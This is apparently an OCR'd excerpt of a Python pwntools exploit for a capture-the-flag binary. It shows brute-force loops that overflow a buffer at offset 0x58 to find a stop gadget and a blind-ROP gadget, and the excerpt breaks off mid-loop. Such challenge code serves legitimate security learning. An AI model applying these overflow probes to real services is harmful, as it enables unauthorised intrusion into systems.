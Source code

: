 ```py
#                    EXPLOIT GOES HERE
#===========================================================

# LEAK MAIN

'''
addr = 0x4006b6

while True:
    print("*** TRYING {} ***".format(hex(addr)))
    io = start()
    payload = flat({
        0x58: addr,
        })
    io.sendlineafter(b"Are you blind my friend?\n", payload)

    try:
        res = io.recvline(timeout=4)
        if b"Are you blind my friend?\n" in res:
            print(hex(addr))
            break
    except:
        io.close()

    addr += 1
'''
stop = 0x4006b6



# LEAK BROP

'''
addr = 0x4007ba

while True:
    print("*** TRYING {} ***".format(hex(addr)))
    io = start()
    payload = flat({
        0x58: [
            addr,
            0,
            0,
            0,
            0,
            0,
            0,
            stop,
            stop,
            ],
        })
    io.sendlineafter(b"Are you blind my friend?\n", payload)

    try:
        res = io.recvuntil(b"Are you blind my friend?\n", timeout=4)
        if len(res) != 0:
            io.sendline(b'a')
            io.recvuntil(b"No password for you!\n")
            res = io.recv(1, timeout=4)
            print(hex(addr))
            break
        else:
            io.close()
```